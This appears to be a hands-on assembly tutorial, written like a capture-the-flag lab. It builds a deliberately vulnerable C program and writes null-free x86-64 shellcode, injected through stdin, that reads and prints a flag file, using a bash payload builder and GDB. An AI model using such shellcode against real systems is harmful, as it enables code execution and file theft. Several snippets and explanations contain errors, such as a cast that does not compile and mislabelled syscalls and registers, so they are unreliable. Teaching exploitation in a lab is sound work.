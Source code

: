 # A Challenge
Given the following C code can we write input that will actually be executed and *do something* like read a flag?
```C 
#include <string.h>
#include <unistd.h>

int main(int argc, char* argv[]){
	char* code[250];
	memset(code, 0, 250);
	
	read(0, code, 250);
	((void*)())code)(); // treat the code as a pointer to a function and run it
	return 0;
}

```
**To make this work we have to compile with specific flags to enable executing code from the stack. DONT DO THIS IN ANY OTHER CIRCUMSTANCES THIS IS SPECIFICALLY NOT INCLUDED SO THESE KINDS OF SECURITY VULNERABILITIES ARE MITIGATED**
Saving this code as vuln1.c we can create a target vulnerable binary using: 
```sh
gcc -g -z execstack -fno-stack-protector vuln1.c -o vuln1
```

## Creating Shell code
Well, if we want to read a flag we will need to first open a file, read it, and then write to STDOUT. 
We can start trying to craft a program in assembly to do exactly this, somewhat like the cat.asm program from 0x1.

And if we want any of this to happen when we pipe a raw stream of bits into the program we will need to manipulate the 
compiled and linked assembly. 

This kind of code is often called **shellcode** and it has unique qualities. For one, shell code has to be position
independent. Since we have no control of whats happening before our code is injected it must keep track of itself 
so as to not care about things like hardcoded or specific offsets in memory which will change randomly. 

Shellcode must also have null bytes removed, otherwise our stream of bits will have a NULL termination somewhere in it and 
will be incorrectly treated as a [string](https://bista.sites.dmi.unipg.it/didattica/sicurezza-pg/buffer-overrun/hacking-book/0x2a0-writing_shellcode.html)

I write a small shell script for testing out different Assembly, take the compiled output and remove the NULL bytes,
write this data to a "payload" file, and then pipe that payload into the vuln1 program:

```bash
#!/bin/bash

binaryPayload=$1
targetBinary=$2

nasm -f elf64 $1 -o runme.o
ld -s runme.o -o runme
rm runme.o

shellcode=$(objdump -d runme | grep -Po '\s\K[a-f0-9]{2}(?=\s)' | sed 's/^/\\x/g' | perl -pe 's/\r?\n//' | sed 's/$/\n/')

echo 'open("payload","wb").write(b'"'"$shellcode"'"')' >> maker.py
python3 maker.py 
rm maker.py

# now pipe the shell code into our target and trace the system calls with strace
cat payload | strace ./$targetBinary
#EOF
```

Before reading a flag maybe lets try something simple, like.... printing a message to the console? 
We wrote code for echoing user supplied arguments in 0x1, but this is a bit different (also 64bit now). 

First thing we need to do is move the bytes of our message into memory. The write syscall is exepecting 
a pointer to our message to be in rdi. The rdx register needs to hold the length of our output. 
We also need to put out file descriptor for STDOUT (just 1) into rbx, and then move the value for the WRITE
syscall into rax. So can we try this?: 
```nasm
section .text
	global _start 
	
_start: 
	; move our message into memory
	xor rdi, rdi
	xor rcx, rcx 
	add rdi, 0x33323130 ;'0123'
	mov [rsi], rdi
	; the write syscall
	mov rdx, 5
	mov rax, 1
	mov rdi, 1
	syscall
	; exit
	xor rax, rax
	add al, 60
	syscall
```

*Lets try out our testshell script and save this as echo.asm:*


![echooo](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/helloShell.png)

By the way to figure out which registers need which arguments for every syscall you can find a table like this 

![syscalls](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/syscall_conventions.png)

from a website like [this](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)

Awesome it worked! Okay so how about trying to read a flag or something?... more syscalls xD 

This one required a bit of thinking, because unlike the cat.asm program in 0x2 we can't setup
a local buffer to read into.  

First we meed to move the name of the file "flag.txt" into memory, and open it (Remember our byte order must be reversed because of how data is stored and read from the stack). 
That should be similar to the cat.asm program but slightly borrowing from what we just did: 
```nasm
_start: 
	xor rdi, rdi
	xor rcx, rcx
	mov rdi, 0x7478742e67616c66 	;txt.galf 
	mov [rdx], rsi
	xchg rdi, rdx
```
So we already have our filename now in rdi, now we just need to move the READ syscall number (2) into RAX and the file permissions mask into RDX
```nasm
	add al, 2
	xor rsi, rsi 
	mov rdx, 0777o
```
If were to just add an exit after this we should be able to see in strace whether we've opened 
the correct file for reading though: 

![missingNull](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/openFlagNoNullTermination.png)


Ahh interesting, the filename is getting mangled somehow. Well 'flag.txt' is 8 bytes,
and at 9th byte we can see from strace that we have an f instead of a null byte. ASCII 'f' in hex is 0x66, so lets just subtract that value:

![fopen](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/FixingFileOpen.png)

**AWESOME IT WORKED!** 

So it looks like now we need to move the pointer to the file we just opened into rdi. Well using GDB I can see that its left in rax after the syscall.
Because we can't create a local buffer we could just use the space of the filename we created to hold the contents of what we read from the file?
So lets move that from the stack (rsp) into rsi. Finally we need to move the length of the message into rdx (we made the flag file so we know its 27 bytes): 

![fileRead](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/FileRead.png)

**AYYY IT WORKED!** 

Okay now we just need to print the result! We can do that with the write syscall, which expects rdi to have file descriptor of where to write (in this case STDOUT or 1).

Lets take a look at how we can debug this from GDB, here we can see the disassembly of the vuln1 main function:

![disass](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/disassMain.png) 

also we cam set a breakpoint for where our code will be called (seen above). Then lets run our program and pipe in the results from "payload" file using this syntax:
`r < payload` in the GDB terminal.

From here we can use stepi once to hop into and through our shellcode one instruction at a time! 

![gdb](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/StepIn.png)

lets use this visibilty to figure out how we can close the loop and actually write the contents of this flag file out. 
Stepping through our shellcode we can see that after the READ syscall we have the flag contents in RSI, which is already where we need our pointer to be for the WRITE CALL! 
The size is already in RDX from the READ call (which is the same place as WRITE), so all we need to do is:
	- Adjust RAX to be 1 for the WRITE syscall
	- change the file descriptor in RDI to 1 now because we want to write to STDOUT (before we read from an actual file)

![soClose](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/SoClose.png) 

well looking at GDB we can see RAX is 0x1b, so lets just subtract 0x1a. And then we can move 1 into rdi. And Voila!

![yay](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/success.png)
